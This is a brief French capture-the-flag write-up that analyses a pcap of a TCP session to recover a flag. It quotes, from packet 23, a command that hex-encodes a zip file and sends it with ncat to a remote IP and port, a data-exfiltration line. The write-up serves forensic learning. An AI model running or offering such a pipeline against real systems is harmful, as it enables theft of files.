

### WUP : Cap ou Pcap ?

#### Paquet TCP 
Pour rappel, voici (grossièrement) le format d'un paquet TCP

**IP [@IPsrc,@IPdst]** | **TCP [port_src,port_dst]** | **PLD[......]**

#### Résolution

On se retrouve face a un fichier pcap d'une session TCP. Par conséquent, on sait donc que tous les paquets SYN, SYN ACK, ACK, FIN ACK et FIN ne seront pas utiles à la résolution du challenge.

On se concentre sur les paquets **PUSH ACK**. En lisant l'intégralité des paquets, on voit que la charge utilse du paquet 23 est la suivante :  

```bash
xxd -p Documents/flag.zip | tr -d '\n' | ncat 172.20.20.133 20200
```

On cherche alors dans la communication un paquet IP avec:
* Une adresse IP destination = 172.20.20.133
* Un port destination = 20200

... ET BINGO ! On retrouve quelque chose qui est suspect.

.

On voit bien que le message est encodé. Ici, il s'agit de **base64**. En chosissant votre décodeur de base64 favori (_personnellement j'ai utilisé dcode_), vous pouvez décoder la payload et obetnir une affiche qui contient un unique fichier : **flag.txt**